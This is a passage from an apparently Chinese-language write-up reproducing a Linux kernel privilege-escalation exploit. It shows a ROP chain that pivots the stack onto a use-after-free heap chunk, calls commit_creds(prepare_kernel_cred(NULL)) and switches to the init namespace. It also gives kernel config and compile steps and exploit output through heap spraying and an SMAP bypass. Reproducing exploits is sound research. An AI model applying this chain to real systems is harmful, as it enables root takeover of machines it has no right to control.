 ```
release in kheap --> push rsi ; jmp qword ptr [rsi + 0x39]   

    kheap + 0x39 --> pop rsp ; ret           //切换栈到了rsi，也就是UAF内存块上  

    kheap + 0x0  --> add rsp, 0xd0 ; ret     //跳过header部分，从0xd8开始正式开始rop  

    rop++        --> enter 0, 0 ; pop rbx ; pop r12 ; pop rbp ; ret  //保存rbp

    .........   
    
    rop++        --> commit_creds(prepare_kernel_cred(NULL))   

    rop++        --> switch_task_namespaces(find_task_by_vpid(1), init_nsproxy) 

    rop++        --> pop rbp ; ret; 
    rop++        --> push qword ptr [rbp + 0xa] ; pop rbp ; ret;
    rop++        --> mov rsp, rbp ; pop rbp ; ret  //恢复栈
```
    
### 内核config  

*kernel config*  
```
make defconfig
make kvm_guest.config
```

修改`CONFIG_USER_NS=y`  

KROP中使用了rbp恢复原始的调用栈，这一点在我复现过程中还制造了不小的麻烦。  

几次复现都遇到类似的panic，调试ROP的各个gadget都没有问题，最后才发现利用成功后，恢复执行流时，保存的RBP一开始就是不对的。CONFIG_FRAME_POINTER没有打开，RBP就不是栈地址。  

CONFIG_FRAME_POINTER在内核主线代码默认是不打开的，但是在ubuntu等系统上都是开着的。   
  
## 复现  
  
编译：
安装 `sudo apt install gcc-multilib` -> `gcc -m32 -static -o poc exploit.c`

done:  

```
[+] STAGE 0: Initialization
[  100.821096] IPVS: ftp: loaded support on port[0] = 21
[*] Initializing sockets and message queues...
[*] Initialize done sockets and message queues: 3

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...s: 3
[*] Searching for corrupted primary message...
[+] fake_idx: ffa
[+] real_idx: fda

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] primary message kheap_addr: ffff888110091000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
```